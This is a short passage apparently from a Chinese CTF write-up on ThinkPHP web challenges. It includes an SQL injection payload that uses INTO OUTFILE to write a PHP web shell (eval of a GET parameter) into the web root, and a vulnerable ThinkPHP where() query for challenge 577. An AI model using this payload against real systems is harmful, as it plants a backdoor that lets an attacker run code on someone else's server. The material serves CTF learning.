```sql
?id=1*/ into outfile '/var/www/html/1.php' LINES STARTING BY '<?php highlight_file(__FILE__);eval($_GET[1]);?>'%23
```

![33](/medias/show-think/33.png)

## web 577

> 描述：flag在数据库里

```php
$map=array(
'id'=>$_GET['id']
);
$user = M('Users')->where($map)->find();
```

谷歌一下[thinkphp3 where(](https://www.kancloud.cn/manual/thinkphp/1735)
